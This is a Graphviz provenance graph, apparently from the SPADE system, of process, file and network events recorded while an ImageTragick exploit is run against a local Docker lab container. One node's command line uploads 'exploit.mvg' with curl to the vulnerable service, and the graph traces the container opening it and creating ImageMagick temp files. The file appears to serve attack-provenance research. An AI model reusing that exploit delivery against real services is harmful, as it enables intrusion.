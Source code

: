 digraph spade2dot {
graph [rankdir = "RL"];
node [fontname="Helvetica" fontsize="8" style="filled" margin="0.0,0.0"];
edge [fontname="Helvetica" fontsize="8"];
"d5bedb1a84456c5a804f0e257a4b57d2" [label="\nuid:0\ncwd:/\ngid:0\nCont_ID:HOST\nname:irqbalance\npid:674\ntype:Process\nppid:1" shape="box" fillcolor="lightsteelblue1"];
"3594f7b96313cc797d82e3fe8ecaae55" [label="\npath:/proc/interrupts\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"d5bedb1a84456c5a804f0e257a4b57d2" -> "3594f7b96313cc797d82e3fe8ecaae55" [label="(type:Used\noperation:open)" color="green" style="solid"];
"5ae2a8d5a40fef525409eb4b4b286a88" [label="\npath:/proc/stat\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"d5bedb1a84456c5a804f0e257a4b57d2" -> "5ae2a8d5a40fef525409eb4b4b286a88" [label="(type:Used\noperation:open)" color="green" style="solid"];
"d78d1879cbf00e204db3358d75681e3b" [label="\nuid:0\ncwd:/home/wajih/SPADE\ngid:0\nCont_ID:HOST\nname:java\npid:25894\ntype:Process\nppid:1" shape="box" fillcolor="lightsteelblue1"];
"9724959130d44766ea81b58de6a19d00" [label="\npath:/usr/lib/jvm/java-1.8.0-openjdk-1.8.0.111-1.b15.el7_2.x86_64/jre/lib/amd64/server/libjvm.so\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"d78d1879cbf00e204db3358d75681e3b" -> "9724959130d44766ea81b58de6a19d00" [label="(type:Used\noperation:open)" color="green" style="solid"];
"d78d1879cbf00e204db3358d75681e3b" -> "9724959130d44766ea81b58de6a19d00" [label="(type:Used\noperation:open)" color="green" style="solid"];
"d78d1879cbf00e204db3358d75681e3b" -> "9724959130d44766ea81b58de6a19d00" [label="(type:Used\noperation:open)" color="green" style="solid"];
"d78d1879cbf00e204db3358d75681e3b" -> "9724959130d44766ea81b58de6a19d00" [label="(type:Used\noperation:open)" color="green" style="solid"];
"d5bedb1a84456c5a804f0e257a4b57d2" -> "3594f7b96313cc797d82e3fe8ecaae55" [label="(type:Used\noperation:open)" color="green" style="solid"];
"d5bedb1a84456c5a804f0e257a4b57d2" -> "5ae2a8d5a40fef525409eb4b4b286a88" [label="(type:Used\noperation:open)" color="green" style="solid"];
"0ee4cd4660490a503c611eebeb726ff7" [label="\nuid:1000\ngid:1000\nCont_ID:HOST\nname:bash\npid:17838\ntype:Process\nppid:17836" shape="box" fillcolor="lightsteelblue1"];
"d516789eb0c32bebb831371ab67c9493" [label="\nuid:1000\ngid:1000\nCont_ID:HOST\nname:bash\npid:25991\ntype:Process\nppid:17838" shape="box" fillcolor="lightsteelblue1"];
"d516789eb0c32bebb831371ab67c9493" -> "0ee4cd4660490a503c611eebeb726ff7" [label="(type:WasTriggeredBy\noperation:fork)" color="blue" style="solid"];
"71c96b20a8a889a7d6b0461e213c25a8" [label="\ngid:1000\nCont_ID:HOST\npid:25991\ntype:Process\ncommandline:curl -v -F file=@exploit.mvg http://127.0.0.1:8080\nppid:17838\nuid:1000\ncwd:/home/wajih/docker-imagetragick\nname:curl" shape="box" fillcolor="lightsteelblue1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "d516789eb0c32bebb831371ab67c9493" [label="(type:WasTriggeredBy\noperation:execve)" color="blue" style="solid"];
"b9d01bc450a4a95d4481c3fb68a5fbd0" [label="\npath:/usr/bin/curl\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "b9d01bc450a4a95d4481c3fb68a5fbd0" [label="(type:Used\noperation:load)" color="green" style="solid"];
"55c03adc9e8e37a397f8954ce287f40c" [label="\npath:/usr/lib64/ld-2.17.so\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "55c03adc9e8e37a397f8954ce287f40c" [label="(type:Used\noperation:load)" color="green" style="solid"];
"ad3ba21ede0dea95855357ddd5780a19" [label="\npath:/etc/ld.so.cache\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "ad3ba21ede0dea95855357ddd5780a19" [label="(type:Used\noperation:open)" color="green" style="solid"];
"0a3763835e7899d772d14ba379e6fcbf" [label="\npath:/usr/lib64/libcurl.so.4.3.0\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "0a3763835e7899d772d14ba379e6fcbf" [label="(type:Used\noperation:open)" color="green" style="solid"];
"06356cf6b9e24a7771fabd642994b4b3" [label="\npath:/usr/lib64/libssl3.so\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "06356cf6b9e24a7771fabd642994b4b3" [label="(type:Used\noperation:open)" color="green" style="solid"];
"f7934ecd251e88af9a1506567e102295" [label="\npath:/usr/lib64/libsmime3.so\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "f7934ecd251e88af9a1506567e102295" [label="(type:Used\noperation:open)" color="green" style="solid"];
"4ea33c67af4be582f0af64c6aac06d1f" [label="\npath:/usr/lib64/libnss3.so\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "4ea33c67af4be582f0af64c6aac06d1f" [label="(type:Used\noperation:open)" color="green" style="solid"];
"6cea6c4ea35b6c01a5e2feeee9ae2b52" [label="\npath:/usr/lib64/libnssutil3.so\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "6cea6c4ea35b6c01a5e2feeee9ae2b52" [label="(type:Used\noperation:open)" color="green" style="solid"];
"7c316ddb30fd5e475b5e5bb0afa9d2c9" [label="\npath:/usr/lib64/libplds4.so\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "7c316ddb30fd5e475b5e5bb0afa9d2c9" [label="(type:Used\noperation:open)" color="green" style="solid"];
"e04fd9eedcb78a0728669d3a9f01140b" [label="\npath:/usr/lib64/libplc4.so\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "e04fd9eedcb78a0728669d3a9f01140b" [label="(type:Used\noperation:open)" color="green" style="solid"];
"a2a1731292ce2cb8b60d5a09d7089fe6" [label="\npath:/usr/lib64/libnspr4.so\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "a2a1731292ce2cb8b60d5a09d7089fe6" [label="(type:Used\noperation:open)" color="green" style="solid"];
"8df6ef9a4a02ddc7a6ed9ae56958f04d" [label="\npath:/usr/lib64/libpthread-2.17.so\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "8df6ef9a4a02ddc7a6ed9ae56958f04d" [label="(type:Used\noperation:open)" color="green" style="solid"];
"eb09697f9a2def3fe5929a2065914497" [label="\npath:/usr/lib64/libdl-2.17.so\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "eb09697f9a2def3fe5929a2065914497" [label="(type:Used\noperation:open)" color="green" style="solid"];
"a38af618eab3b3c8fe396079d89c07c3" [label="\npath:/usr/lib64/libz.so.1.2.7\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "a38af618eab3b3c8fe396079d89c07c3" [label="(type:Used\noperation:open)" color="green" style="solid"];
"a71d01ae0398c198ca06ba9023cd8b04" [label="\npath:/usr/lib64/libc-2.17.so\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "a71d01ae0398c198ca06ba9023cd8b04" [label="(type:Used\noperation:open)" color="green" style="solid"];
"0033a0a55931822f46e658d5877addbe" [label="\npath:/usr/lib64/libidn.so.11.6.11\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "0033a0a55931822f46e658d5877addbe" [label="(type:Used\noperation:open)" color="green" style="solid"];
"19eb904602f3f64f30fb68e0b4d72c52" [label="\npath:/usr/lib64/libssh2.so.1.0.1\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "19eb904602f3f64f30fb68e0b4d72c52" [label="(type:Used\noperation:open)" color="green" style="solid"];
"3b6eece466b30eaa592ea2ad71a6ee7d" [label="\npath:/usr/lib64/libgssapi_krb5.so.2.2\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "3b6eece466b30eaa592ea2ad71a6ee7d" [label="(type:Used\noperation:open)" color="green" style="solid"];
"3d60f48a6d31482e593ef6be2945cd01" [label="\npath:/usr/lib64/libkrb5.so.3.3\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "3d60f48a6d31482e593ef6be2945cd01" [label="(type:Used\noperation:open)" color="green" style="solid"];
"77a3c3bf0e5b5236d9d872e04d3852a5" [label="\npath:/usr/lib64/libk5crypto.so.3.1\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "77a3c3bf0e5b5236d9d872e04d3852a5" [label="(type:Used\noperation:open)" color="green" style="solid"];
"201dbffa49be33484c0b154150e72924" [label="\npath:/usr/lib64/libcom_err.so.2.1\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "201dbffa49be33484c0b154150e72924" [label="(type:Used\noperation:open)" color="green" style="solid"];
"77e2eeda0668c8422ebbcd27960fe52a" [label="\npath:/usr/lib64/liblber-2.4.so.2.10.3\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "77e2eeda0668c8422ebbcd27960fe52a" [label="(type:Used\noperation:open)" color="green" style="solid"];
"839d2ff21dd3bd6ef5e9e32867b023b7" [label="\npath:/usr/lib64/libldap-2.4.so.2.10.3\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "839d2ff21dd3bd6ef5e9e32867b023b7" [label="(type:Used\noperation:open)" color="green" style="solid"];
"22217f990780ac60969889f3faad378b" [label="\npath:/usr/lib64/librt-2.17.so\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "22217f990780ac60969889f3faad378b" [label="(type:Used\noperation:open)" color="green" style="solid"];
"b8050ba7f3f726653fb478a21f49a52c" [label="\npath:/usr/lib64/libssl.so.1.0.1e\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "b8050ba7f3f726653fb478a21f49a52c" [label="(type:Used\noperation:open)" color="green" style="solid"];
"72e123693f4226f7c22d9eb94d7af25c" [label="\npath:/usr/lib64/libcrypto.so.1.0.1e\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "72e123693f4226f7c22d9eb94d7af25c" [label="(type:Used\noperation:open)" color="green" style="solid"];
"19387e30076c085097fcc2e40139877d" [label="\npath:/usr/lib64/libkrb5support.so.0.1\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "19387e30076c085097fcc2e40139877d" [label="(type:Used\noperation:open)" color="green" style="solid"];
"c232ea7b3e40c10bc3706cedae99d838" [label="\npath:/usr/lib64/libkeyutils.so.1.5\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "c232ea7b3e40c10bc3706cedae99d838" [label="(type:Used\noperation:open)" color="green" style="solid"];
"750f1eb5e7183d077d699828462506d4" [label="\npath:/usr/lib64/libresolv-2.17.so\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "750f1eb5e7183d077d699828462506d4" [label="(type:Used\noperation:open)" color="green" style="solid"];
"bdd9922660656adb096edf4fd1937ec2" [label="\npath:/usr/lib64/libsasl2.so.3.0.0\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "bdd9922660656adb096edf4fd1937ec2" [label="(type:Used\noperation:open)" color="green" style="solid"];
"5c381a5ca710035d3a0597bd67ec30a4" [label="\npath:/usr/lib64/libselinux.so.1\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "5c381a5ca710035d3a0597bd67ec30a4" [label="(type:Used\noperation:open)" color="green" style="solid"];
"7a1161dcc2342fe1ce244944cc8f7ef2" [label="\npath:/usr/lib64/libcrypt-2.17.so\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "7a1161dcc2342fe1ce244944cc8f7ef2" [label="(type:Used\noperation:open)" color="green" style="solid"];
"cb0c6a8494406693021bbd2c08e2237f" [label="\npath:/usr/lib64/libpcre.so.1.2.0\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "cb0c6a8494406693021bbd2c08e2237f" [label="(type:Used\noperation:open)" color="green" style="solid"];
"19b517486919261356c39fdcc4980747" [label="\npath:/usr/lib64/liblzma.so.5.0.99\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "19b517486919261356c39fdcc4980747" [label="(type:Used\noperation:open)" color="green" style="solid"];
"bd36cdd35569fd3b217861657ff82fb2" [label="\npath:/usr/lib64/libfreebl3.so\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "bd36cdd35569fd3b217861657ff82fb2" [label="(type:Used\noperation:open)" color="green" style="solid"];
"f8459929a6ee407583721e00c1e38742" [label="\npath:/usr/lib/locale/locale-archive\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "f8459929a6ee407583721e00c1e38742" [label="(type:Used\noperation:open)" color="green" style="solid"];
"791b62c48c5eaf971ee5ed3ee480d157" [label="\npath:/home/wajih/docker-imagetragick/exploit.mvg\nsubtype:file\nCont_ID:HOST\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "791b62c48c5eaf971ee5ed3ee480d157" [label="(type:Used\noperation:open)" color="green" style="solid"];
"0445578a6c0e087243a03e63be16459d" [label="\nuid:0\ngid:0\nCont_ID:HOST\nname:docker-proxy\npid:29588\ntype:Process\nppid:5458" shape="box" fillcolor="lightsteelblue1"];
"2ae1deb995d07eec968da843ccafcd7f" [label="\nsource address:127.0.0.1\nsubtype:network\ntype:Artifact\nsource port:39736\ndestination port:\nversion:0\ndestination address:" shape="diamond" fillcolor="palegreen1"];
"0445578a6c0e087243a03e63be16459d" -> "2ae1deb995d07eec968da843ccafcd7f" [label="(type:Used\noperation:accept)" color="green" style="solid"];
"23e69b9b798030469463111b5a934028" [label="\nuid:0\ngid:0\nCont_ID:251c24c6f483\nname:python\npid:29644\ntype:Process\nppid:29607" shape="box" fillcolor="lightsteelblue1"];
"bacdc9a4682fee483546c9f72fec1d29" [label="\nsource address:172.17.0.1\nsubtype:network\ntype:Artifact\nsource port:49008\ndestination port:\nversion:0\ndestination address:" shape="diamond" fillcolor="palegreen1"];
"23e69b9b798030469463111b5a934028" -> "bacdc9a4682fee483546c9f72fec1d29" [label="(type:Used\noperation:accept)" color="green" style="solid"];
"71c96b20a8a889a7d6b0461e213c25a8" -> "791b62c48c5eaf971ee5ed3ee480d157" [label="(type:Used\noperation:open)" color="green" style="solid"];
"82442f159ab1dc0e0300ad6455d235a0" [label="\npath:/app/uploads/exploit.mvg\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"23e69b9b798030469463111b5a934028" -> "82442f159ab1dc0e0300ad6455d235a0" [label="(type:Used\noperation:open)" color="green" style="solid"];
"23e69b9b798030469463111b5a934028" -> "82442f159ab1dc0e0300ad6455d235a0" [label="(type:Used\noperation:open)" color="green" style="solid"];
"23e69b9b798030469463111b5a934028" -> "82442f159ab1dc0e0300ad6455d235a0" [label="(type:Used\noperation:open)" color="green" style="solid"];
"23e69b9b798030469463111b5a934028" -> "82442f159ab1dc0e0300ad6455d235a0" [label="(type:Used\noperation:open)" color="green" style="solid"];
"0bdab3dd5e3eb3cca261287f617b4452" [label="\npath:/tmp/magick-p5WKRMjm\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"0bdab3dd5e3eb3cca261287f617b4452" -> "23e69b9b798030469463111b5a934028" [label="(type:WasGeneratedBy\noperation:create)" color="red" style="solid"];
"cb9314d3157e9c31a1f9081b312cbf95" [label="\npath:/tmp/magick-o-mUuYVv\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"cb9314d3157e9c31a1f9081b312cbf95" -> "23e69b9b798030469463111b5a934028" [label="(type:WasGeneratedBy\noperation:create)" color="red" style="solid"];
"0bdab3dd5e3eb3cca261287f617b4452" [label="\npath:/tmp/magick-p5WKRMjm\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"23e69b9b798030469463111b5a934028" -> "0bdab3dd5e3eb3cca261287f617b4452" [label="(type:Used\noperation:link_read)" color="green" style="solid"];
"cb9314d3157e9c31a1f9081b312cbf95" [label="\npath:/tmp/magick-o-mUuYVv\nsubtype:file\nCont_ID:251c24c6f483\ntype:Artifact\nversion:0" shape="ellipse" fillcolor="khaki1"];
"cb9314d3157e9c31a1f9081b312cbf95" -> "23e69b9b798030469463111b5a934028" [label="(type:WasGeneratedBy\noperation:link_write)" color="red" style="solid"];
